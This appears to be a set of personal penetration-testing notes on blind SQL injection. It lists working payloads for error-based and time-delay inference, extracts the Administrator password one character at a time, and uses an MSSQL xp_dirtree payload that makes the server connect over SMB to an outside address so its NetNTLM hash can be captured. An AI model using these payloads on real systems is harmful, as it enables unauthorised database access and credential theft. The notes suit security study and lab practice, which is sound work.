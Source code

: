 ## Inducing conditional responses by triggering SQL errors

To see how this works, suppose that two requests are sent containing the following TrackingId cookie values in turn:

```
xyz' UNION SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END--
xyz' UNION SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END--
```

These inputs use the CASE keyword to test a condition and return a different expression depending on whether the expression is true. With the first input, the case expression evaluates to NULL, which does not cause any error. With the second input, it evaluates to 1/0, which causes a divide-by-zero error. Assuming the error causes some difference in the application’s HTTP response, we can use this difference to infer whether the injected condition is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

```
xyz' union select case when (username = 'Administrator' and SUBSTRING(password, 1, 1) > 'm') then 1/0 else null end from users—
```

## Exploiting blind SQL injection by triggering time delays

```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

- attack
    
    ```
    '; IF (SELECT COUNT(username) FROM Users WHERE username = 'Administrator' AND SUBSTRING(password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'—
    ```
    

# mssql Capture and crack NetNTLM hash

---

the MSSQL Server service account can be made to initiate a remote SMB connection using the command below.

```
'+EXEC+master.sys.xp_dirtree+'\\10.10.14.9\share--
```

If we run respond on 10.10.14.9 we will paste hashes


# SQL filter bypass

---